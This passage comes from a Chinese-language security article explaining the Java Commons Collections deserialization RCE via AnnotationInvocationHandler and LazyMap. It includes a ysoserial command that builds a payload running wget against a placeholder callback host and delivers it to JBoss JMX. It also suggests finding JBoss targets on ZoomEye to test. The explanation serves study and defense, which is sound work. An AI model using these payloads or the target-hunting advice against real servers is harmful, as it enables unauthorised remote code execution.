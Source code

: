 * * *

这里配合我们执行代码的类就是`AnnotationInvocationHandler`，我们来看看`readObject`方法里面有什么逻辑：

![](http://drops.javaweb.org/uploads/images/482701d9cff3aa95d3d6e51515be8d7120b7143f.jpg)

可以看到，首先调用了`defaultReadObject`来获取了类属性`type`和`memberValues`，找到定义，这两个东西如下：

![](http://drops.javaweb.org/uploads/images/57e783452cb82c95d9b107782629cff248d790d6.jpg)

在`readObject`方法中，类型检查之前就触发了我们对象的方法。从`memberValues`参数中获取了`entry`并`setValue`，这样，虽然可能会有类型错误，但是代码却执行了。符合了之前我们关于RCE的构想。所以看懂exp就变得很简单。exp做了一件事情，就是返回一个序列化的`handler`对象，对象里包含了我们的`transformer`对象数组，用来装载我们要执行的代码。

创建`handler`的方法如下:

![](http://drops.javaweb.org/uploads/images/84a0ea50a20e22d50be5859539099362290f87a8.jpg)

利用反射，获取到`AnnotationInvocationHandler`的构造函数，并传入了我们的map，`getInstance`返回一个`handler`对象，完成了所要求的一切，之后，找个使用可控序列化的地方发送这个序列化`handler`即可执行我们的代码。

我还是把exp贴上来吧，这段代码就是构造我们的`handler`对象：

![](http://drops.javaweb.org/uploads/images/6f9bee578ef61c5540e4d06f27af38cfe51d9a73.jpg)

首先exp里构造了`transformer`对象数组并用`LazyMap`进行包装，包装后装到一个`handler`对象里并返回这个`handler`。

0x03 演示
=======

* * *

为什么说这个RCE影响大，具体可以看看参考文章1中作者给出的几个案例，可以看到主流的java-web中间件都受到了影响，包括jboss、WebLogic、 WebSphere等。

以jboss为例的利用教程，在zone里[http://zone.wooyun.org/content/23847](http://zone.wooyun.org/content/23847)已经给出步骤了，利用门槛不高，只需要在zoomeye上找jboss来测试即可。

由于是RCE，所以花样很多了，这里我就挑几个案例，利用CloudEye执行看看，执行命令为：

```
wget http://your-cloudeye-site

```

如果成功执行，那么我们的cloudeye上应该有日志的。 具体如下：

```
java -jar ysoserial-0.0.2-all.jar CommonsCollections1 'wget http://your-cloudeye-site' > out.ser

```

上面的命令是获取执行wget命令的`handler`对象的序列化code，然后我们访问jboss里的JMX服务：

![](http://drops.javaweb.org/uploads/images/593cde94eb88001b987a898c64e8702dfa858e5a.jpg)

在cloudeye上，成功获取了访问记录：

![](http://drops.javaweb.org/uploads/images/f32d142332833d57e0a1d570ea6e4b3e2cd5e242.jpg)
